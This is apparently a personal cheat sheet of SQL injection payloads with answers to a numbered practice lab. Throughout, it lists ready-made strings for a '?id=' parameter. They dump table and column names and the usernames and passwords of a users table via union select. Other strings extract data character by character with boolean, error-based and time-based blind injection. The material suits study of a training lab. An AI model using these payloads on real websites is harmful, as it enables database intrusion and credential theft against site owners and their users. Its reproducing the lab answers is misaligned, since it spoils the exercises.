 ## get all tables
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+

## get all column names in a certain table
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+

## get information in a certain table
?id=-1' union select 1,group_concat(username),concat_ws("::", password) from users --+


# 基于布尔代数的盲注

## make it work or wrong
?id=1' AND 1=1 --+
?id=1' AND 1=0 --+

## get length of database()
* ?id=1' and length(database())<10 --+ // 函数结果二分法
* ?id=1' and database() regexp '.{1,10}' --+ // 正则表达匹配法

## get name of database()
* ?id=1' and ascii(substr(database(),1,1))>100 --+
* ?id=1' and database() regexp '^[a-z].{7}' --+

## get tables of a certain database
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5 --+
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+

## get columns of a certain table
?id=1' and length((select column_name from information_schema.columns where table_name=['users'] limit 0,1))>5 --+
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name=['users'] limit 0,1),1,1))>50 --+

## get information of a certain column
?id=1' and length((select [username] from [users] limit 0,1))<5 --+
?id=1' and ascii(substr((select [username] from [users] limit 0,1),1,1))>50 --+

# Answers of the labs
01. basic : ?id=0' union select --+
02. basic : ?id=0 union select --+
03. basic : ?id=0') union select --+
04. basic : ?id=0") union select --+
05. Blind Injection: Error based : ?id=1' union select 1,2,count(*) from information_schema.tables group by concat_ws(":", database(), floor(rand(0)*2)) --+
06. Blind Injection: ?id=1" and database() regexp '^[a-z]{1,9}' --+
07. Dump into Outfile
08. Blind-Boolian-Single Quotes: ?id=1' and database() regexp '^[a-z]{1,9}' --+
09. Blind-Time based-Single Quotes: FalseOK : ?id=1' and if(database() regexp '[a-z]', !sleep(5), 0) --+